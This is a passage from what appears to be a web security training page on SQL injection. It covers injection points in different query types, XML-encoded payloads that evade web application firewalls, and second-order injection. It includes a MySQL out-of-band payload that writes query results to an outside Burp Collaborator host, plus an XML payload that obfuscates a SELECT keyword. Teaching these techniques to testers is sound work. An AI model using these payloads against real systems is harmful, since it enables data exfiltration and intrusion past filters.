 **MySQL**
```mysql
Windows only

SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

**SQL injection in different parts of the query**

Most SQL injection vulnerabilities arise within the `WHERE` clause of a `SELECT` query. This type of SQL injection is generally well-understood by experienced testers.

But SQL injection vulnerabilities can in principle occur at any location within the query and within different query types. The most common other locations where SQL injection arises are:

-   In `UPDATE` statements, within the updated values or the `WHERE` clause.
-   In `INSERT` statements, within the inserted values.
-   In `SELECT` statements, within the table or column name.
-   In `SELECT` statements, within the `ORDER BY` clause.

**SQL injection in different contexts**

In all of the labs so far, you've used the query string to inject your malicious SQL payload. However, it's important to note that you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may even provide alternative ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often just look for common SQL injection keywords within the request, so you may be able to bypass these filters by simply encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:

```xml
<stockCheck>
	<productId>
		123
	</productId>
	<storeId>
		999 &#x53;ELECT * FROM information_schema.tables 
	</storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter.

**Second-order SQL injection**

First-order SQL injection arises when the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.
